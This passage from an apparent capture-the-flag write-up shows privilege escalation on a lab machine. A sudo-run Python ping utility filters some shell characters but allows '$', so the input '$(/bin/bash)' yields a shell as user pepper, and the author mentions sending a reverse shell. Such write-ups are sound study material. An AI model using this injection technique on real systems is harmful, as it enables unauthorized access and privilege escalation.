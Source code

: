 ```text
        show_help()
        exit()
    elif sys.argv[1] == '-s':
        show_statistics()
        exit()
    elif sys.argv[1] == '-l':
        list_ip()
        exit()
    elif sys.argv[1] == '-p':
        exec_ping()
        exit()
    else:
        show_help()
        exit()
```

The “_-p_” option calls the _exec\_ping\(\)_ command. This command takes in user provided input and checks if the following characters are part of the input: ‘&’, ‘;’, ‘-’, ‘\`’, ‘\|\|’, ‘\|’. If it finds one of these characters, it prints out the message “Got you” and terminates the program. Otherwise, it executes the ping command on the user provided input.

Notice that the dollar sign is allowed, so I can use that to get a privileged shell. Take for example the following command.

```text
www-data@jarvis:/var/www/Admin-Utilities$ ping $(whoami)ping: www-data: Temporary failure in name resolution
```

Whatever is in the parenthesis will be executed first and the output of it will be passed to the ping command. Therefore, as can be seen in the above output, it resolved the _whoami_ command to “_www-data_” and then it tried to ping the output of the command.

So to escalate our privileges to pepper, in the IP address field, we just run the $\(/bin/bash\) command.

```text
www-data@jarvis:/$ sudo -u pepper /var/www/Admin-Utilities/simpler.py -p 
***********************************************
     _                 _                       
 ___(_)_ __ ___  _ __ | | ___ _ __ _ __  _   _ 
/ __| | '_ ` _ \| '_ \| |/ _ \ '__| '_ \| | | |
\__ \ | | | | | | |_) | |  __/ |_ | |_) | |_| |
|___/_|_| |_| |_| .__/|_|\___|_(_)| .__/ \__, |
                |_|               |_|    |___/ 
                                @ironhackers.es
                                
***********************************************Enter an IP: $(/bin/bash)
pepper@jarvis:/$ whoami
pepper@jarvis:/$ cat /home/pepper/user.txt
```

We’re pepper! I tried running a few commands, but something seems to be wrong with my shell, so instead I sent a new reverse shell \(done in the same way as earlier\) back to my attack machine and upgraded it to a fully interactive shell.
